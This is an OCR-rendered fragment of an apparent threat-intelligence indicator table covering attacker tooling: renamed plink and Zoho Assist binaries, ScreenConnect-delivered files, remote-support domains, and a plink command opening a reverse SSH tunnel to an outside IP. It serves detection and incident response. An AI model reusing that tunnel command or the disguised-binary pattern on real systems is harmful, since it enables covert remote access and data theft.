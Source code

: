 
zoho remote assist


filename


c:\users\<username>\music\za_access_my_department.exe


zoho remote assist


filename


c:\windows\servicehost.exe


plink renamed


filename


c:\windows\sysconf.bat


runs servicehost.exe (plink) command


filename


c:\windows\temp\screenconnect\23.8.5.8707\files\azure.msi


zoho remote assist used to transfer data via screenconnect


cmdline


echo enter | c:\windows\servicehost.exe -ssh -r 8085:127.0.0.1:8085 <username>@168.100.9[.]137 -pw <password>


plink port forwarding


domain


eu1-dms.zoho[.]eu


zoho assist


domain


fixme[.]it


fixme it


domain


unattended.techinline[.]net
